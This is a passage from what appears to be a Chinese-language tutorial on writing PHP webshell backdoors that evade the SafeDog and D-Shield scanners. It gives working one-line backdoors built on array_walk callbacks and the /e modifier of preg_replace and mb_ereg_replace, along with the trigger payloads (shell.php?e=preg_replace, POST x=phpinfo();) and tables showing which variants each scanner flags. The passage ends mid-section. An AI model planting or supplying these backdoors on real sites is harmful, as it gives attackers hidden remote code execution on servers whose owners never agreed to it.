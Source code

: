 这个 array_walk 有点复杂，这里用的是回调函数和自定义函数结合的姿势了。

| 安全狗       | D盾                   |
| :----------- | :-------------------- |
| 0 个安全风险 | 级别 2 (可疑)变量函数 |

看了下网上其他姿势：

```php
<?php 
  $e = $_REQUEST['e'];
  $arr = array($_POST['x'] => '|.*|e',);
    array_walk($arr, $e, '');
?>
```

此时提交如下 payload 的话：

```php
shell.php?e=preg_replace
```

最后就相当于执行了如下语句：

```php
preg_replace('|.*|e',$_POST['x'],'')
```

这个时候只需要 POST `x=phpinfo();` 即可。这种主要是利用了 preg_replace 的 /e 模式进行代码执行。

不过这种方法已经凉了，安全狗和 D 盾均可以识别，而且这种 preg_replace 三参数后门的 `/e`模式 PHP5.5 以后就废弃了：

| 安全狗                      | D盾             |
| :-------------------------- | :-------------- |
| 1 个安全风险 array_walk执行 | 级别 5 已知后门 |

不过 PHP 止中不止 preg_replace 函数可以执行 eval 的功能，还有下面几个类似的：

**mb_ereg_replace**

```php
mb_ereg_replace ( string $pattern , string $replacement , string $string [, string $option = "msr" ] ) : string
```

类似于 preg_replace 函数一样，也可以通过 e 修饰符来执行命令：

```php
<?php 
    mb_ereg_replace('\d', $_REQUEST['x'], '1', 'e');
?>
```

**preg_filter**

```php
mixed preg_filter ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```
